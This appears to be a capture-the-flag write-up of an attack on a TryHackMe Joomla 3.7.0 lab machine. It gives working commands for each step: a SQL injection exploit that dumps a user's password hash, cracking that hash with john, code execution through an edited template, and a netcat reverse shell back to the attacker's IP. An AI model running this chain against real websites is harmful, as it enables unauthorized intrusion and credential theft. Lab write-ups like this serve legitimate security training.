 `/README.txt`
```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master
...
```
which reveals version: `3.7.0`
`/administrator/manifests/files/joomla.xml` also reveals it -> `<version>3.7.0</version>`
# Web Exploitation
# Searching for exploits
You can find an exploit in https://www.exploit-db.com/exploits/42033. There is a SQLI in following url: `http://10.10.107.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml<SQLI>`
Another exploit that can be found: https://github.com/stefanlucas/Exploit-Joomla

## SQLi
Python code is here https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py
```bash
python3 joomblah.py "http://10.10.107.150/" 
...
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
 ...
```
## Cracking hash
```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
And password is `spiderman123`
## RCE
Found user has following credentials:
`jonah:spiderman123`
it allows us to login in `/administrator` page.
Following https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#RCE we can get **RCE**. 
After this, we will be able to get RCE with following request:
```bash
curl -s http://10.10.107.150/templates/protostar/error.php?cmd=id
```
The next step is reverse shell
## Reverse Shell
Setup a Listener in one terminal
```bash
nc -lvnp 1234
```
To get reverse shell following payload will be used
```bash
curl -s http://10.10.107.150/templates/protostar/error.php?cmd=nc+10.8.97.245+1234+-e+/bin/bash
```
After getting reverse shell do a terminal stabilization
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# ctrl+z
stty raw -echo; fg
```